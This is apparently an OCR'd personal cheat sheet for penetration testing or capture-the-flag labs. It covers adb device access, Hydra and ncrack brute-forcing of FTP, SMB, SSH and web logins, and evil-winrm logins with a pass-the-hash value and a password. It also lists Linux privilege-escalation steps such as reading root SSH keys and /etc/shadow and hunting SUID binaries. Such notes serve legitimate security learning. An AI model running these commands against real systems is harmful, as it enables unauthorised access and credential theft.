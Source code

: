 	# Connect to a mobile over tcpip
	adb connect <IP>:<PORT>

	adb shell

	# Download file from phone
	adb pull <source> <destination>

	# Upload file to phone
	adb push <source> <destination>

	# Online APK analysis
	sisik.eu	(manifest, permissions, etc..)


Hydra
	
	hydra -l user -p password <IP> ftp
	hydra -L users.txt -P passwords.txt <IP> smb
	ncrack --user user -P wordlist.txt ssh://10.10.91.125:22 -v
 	ncrack -U username.txt -P password.txt smb://10.10.10.10 -v

	ssh -oHostKeyAlgorithms=+ssh-rsa user@10.10.91.125
	hydra -l admin -P /usr/share/wordlists/rockyou.txt brute.thm http-post-form '/admin/:user=^USER^&pass=^PASS^:Username or password invalid'
	evil-winrm -i 10.129.181.85 -u "Administrator" -H "0118e05f0e12da4526947612faadc508"
	evil-winrm -i 10.129.181.85 -u "Administrator" -p "badminton"

Privilege Escalation Linux

    # Horizontal PrivEsc
	sudo -u user2 /bin/bash
	ssh		cat /home/user/.ssh/id_rsa

    # Vertical PrivEsc
	sudo -i
	sudo		sudo -l
	suid		find / -perm -4000 2> /dev/null (SUID)
	ssh		cat /root/.ssh/id_rsa
	permission	ls -lah /etc/shadow /etc/passwd
	nfs
	cronjob	(overwrite.sh)
		write permission
		path variable
		Wildcard (tar *)
	capabilities	getcap -r / 2> /dev/null
	